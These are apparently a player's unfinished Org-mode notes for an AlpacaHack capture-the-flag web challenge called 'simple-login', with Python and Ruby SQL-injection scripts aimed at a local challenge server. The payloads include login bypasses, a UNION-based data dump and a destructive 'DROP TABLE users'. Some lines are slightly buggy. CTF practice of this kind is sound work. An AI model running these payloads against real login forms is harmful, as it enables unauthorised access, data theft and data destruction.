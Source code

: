 * AlpacaHack

** TODO simple-login
:PROPERTIES:
:CATEGORY: web
:END:

- State "TODO"       from              [2025-07-06 Sun 02:12] \\
  not yet
  
#+CAPTION: Directory Structure
#+begin_example
 .
├──  compose.yaml
├──  db
│   └──  init.sql
└──  web
    ├──  app.py
    ├──  Dockerfile
    ├──  requirements.txt
    └──  templates
        ├──  index.html
        └──  login.html
#+end_example

*** COMMENT Exploits

#+begin_src python :tangle exploit.py
  import requests
  from urllib.parse import quote

  url = "http://localhost:3000/login"
  username_payload = "' OR 1/0 -- "
  password_payload = "test"

  encoded_username_payload = quote(username_payload)

  data = {
      "username": encoded_username_payload,
      "password": password_payload
  }

  print("Attempting simple error-based injection (1/0)...")
  response = requests.post(url, data=data, allow_redirects=False)

  print(f"Status Code: {response.status_code}")
  print("Headers:")
  for header, value in response.headers.items():
      print(f"  {header}: {value}")
  print("\nBody:")
  print(response.text)
#+end_src

#+RESULTS:

#+begin_src ruby
   require 'net/http'
   require 'uri'

   # Target application details
   $host = 'localhost' # Replace with your Flask app's host
   $port = 3000       # Replace with your Flask app's port
   $login_path = '/login'

   # Function to send a POST request to the login endpoint
   def send_login_request(username, password)
     uri = URI.parse("http://#$host:#$port#$login_path")
     http = Net::HTTP.new(uri.host, uri.port)
     request = Net::HTTP::Post.new(uri.request_uri)
     request.set_form_data({'username' => username, 'password' => password})

     begin
       response = http.request(request)
       puts "Request with username: '#{username}', password: '#{password}'"
       puts "Status Code: #{response.code}"
       puts "Body: #{response.body.inspect}"
       puts "---"
       return response
     rescue Errno::ECONNREFUSED
       puts "Error: Could not connect to the server at http://#{host}:#{port}"
       exit(1)
     end
   end

   # --- Test Payloads ---

   # Simple SQL injection attempts
   payloads = [
     {"username" => "admin'--", "password" => "anything"},
     {"username" => "admin", "password" => "' OR '1'='1'--"},
     {"username" => "' OR 1=1 --", "password" => "anything"},
     {"username" => "'; DROP TABLE users; --", "password" => "anything"}, # Be extremely careful with destructive payloads!
     {"username" => "admin", "password" => "' UNION SELECT * FROM users --"}, # Might reveal data
     {"username" => "admin", "password" => "` OR `1`=`1` --"}, # Using backticks
     {"username" => "admin", "password" => "\" OR \"1\"=\"1\" --"}, # Using double quotes
   ]

   payloads.each do |payload|
     send_login_request(payload["username"], payload["password"])
   end

   # Test with a valid username and a malicious password
   send_login_request("testuser", "' OR '1'='1'--") # Replace 'testuser' if you know a valid one

   # Test with a malicious username and a valid password
   send_login_request("' OR '1'='1'--", "testpassword") # Replace 'testpassword' if you know a valid one
#+end_src

